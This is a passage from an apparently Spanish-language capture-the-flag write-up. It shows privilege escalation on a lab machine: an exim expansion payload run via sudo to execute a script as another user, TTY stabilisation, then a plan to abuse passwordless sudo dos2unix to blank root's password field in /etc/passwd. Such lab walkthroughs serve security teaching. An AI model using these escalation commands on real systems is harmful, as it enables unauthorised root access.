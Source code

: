 ~~~ bash
sudo -u pepe exim -be '${run{/bin/bash -c "/tmp/privesc"}}'
~~~

![Pasted image 20241105203354](https://github.com/user-attachments/assets/8e2ba934-3fa0-455b-89c2-d1fd0100d86c)

Y estaríamos conectados como el usuario `pepe`, ahora finalmente nos queda escalar a `root`

![Pasted image 20241105203659](https://github.com/user-attachments/assets/a389cc80-b23c-4e9c-b04a-46d5d931c34d)

## Tratamiento TTY

Hacemos un tratamiento de la TTY para poder hacer `Ctrl + C` y `Ctrl + L`

~~~ bash
export TERM=xterm

script /dev/null -c bash
^Z

stty raw -echo;fg
reset xterm
/bin/bash
stty columns 189 rows 44
~~~

![Pasted image 20241105204545](https://github.com/user-attachments/assets/e1ab3f89-22c2-410c-bda2-4b45b9222073)

## Sudo `dos2unix`

Listaremos nuestros privilegios `sudo` para ver si tenemos acceso a un recurso nuevo el cual podamos explotar para elevar nuestros privilegios

~~~ bash
sudo -l
~~~

![Pasted image 20241105205458](https://github.com/user-attachments/assets/f376c794-891c-4511-b6ff-8431fd1fca5f)

Tenemos capacidad de ejecutar `dos2unix` sin proporcionar contraseña. Con la capacidad de escritura de archivos con `dos2unix`, podemos llevar a cabo una escalada de privilegios mediante una escritura privilegiada

![Pasted image 20241105204818](https://github.com/user-attachments/assets/a6c98f00-ff05-4b92-be82-b0837415b4a8)

Usaremos el contenido de `/etc/passwd` para nuestra escalada, primeramente hacemos una copia del `/etc/passwd` en algún directorio como `/tmp`

~~~ bash
cat /etc/passwd > /tmp/passwd
~~~

**Ahora necesitamos que la línea del archivo donde se encuentra `root` esté sin la letra `x`, al eliminar la "x" en el campo de contraseña de `root`, indicaríamos al sistema que `root` no tiene contraseña almacenada en `/etc/shadow`. Esto dejaría la cuenta `root` accesible sin contraseña**
